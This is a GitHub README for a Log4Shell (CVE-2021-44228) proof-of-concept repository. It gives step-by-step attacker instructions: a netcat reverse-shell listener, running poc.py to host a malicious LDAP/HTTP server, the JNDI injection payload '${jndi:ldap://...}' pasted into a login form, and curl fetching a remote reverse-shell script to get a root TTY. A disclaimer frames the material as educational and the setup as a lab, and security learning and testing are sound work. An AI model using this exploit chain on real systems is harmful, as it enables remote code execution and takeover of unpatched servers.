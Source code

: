 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent.<br><br>

Setup
----------------------------------------

This works best with two machines. I prefer to spin up 2 droplets on Digital Ocean because it's cheap for test purposes.<br><br>
One machine acts as the target while the other acts as the attacker.<br><br>
Before moving forward, download the following version of Java SE Development Kit `java-8u20` here: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html<br><br>

Prep
----------------------------------------

- Move the extracted archive for the Java SE Development Kit into the root of this repo
- Upload the root of this repo with the extracted Java SE Development Kit into your **attacker** machine
- Ensure that `python3` is installed on your attacker machine (if not follow guide here: https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server)
- Upload the root of this repo without the extracted Java SE Development Kit into your **target** machine

Steps to Follow
----------------------------------------

#### Start the vulnerable application on the target machine with the following commands

```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

Note: This runs the application without the Waratek Security-as-Code platform. More information on implementing the platform below.<br><br>

### Prep the exploit

- On the attacker machine open 2 shells: One to listen for the reverse shell, and one to run the server
- On the first shell for the attacker machine, open a port with netcat: `$ nc -lvnp 9001`
- On the second shell for the attacker machine, start the webserver that will deliver the exploit payload with: `$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001` where `{attackerIP}` is the IP address of the attacker machine
- When the web server launches, you'll receive a payload in the ouput. Copy the payload and open up the vulnerable application in your browser.
- Paste the payload into the email field and put in any value as the password, then press "Sign in."
- The browser should hang and then on the attacker machine shell with netcat running you should see a connection established.
- Download this reverse shell Python script with: `$ curl -O https://gist.githubusercontent.com/jacobwarren/0abf1c5d3d2e969ac8dfcc5a10abf8e8/raw/7dce0c1924c06c20c1471bc4c0824704024c535c/revsh.py`
- Then run it with `$ python3 revsh.py` to establish a TTY
- Now run `$ WHOAMI` to verify that you're indeed root.

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

#### Requirements:


Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

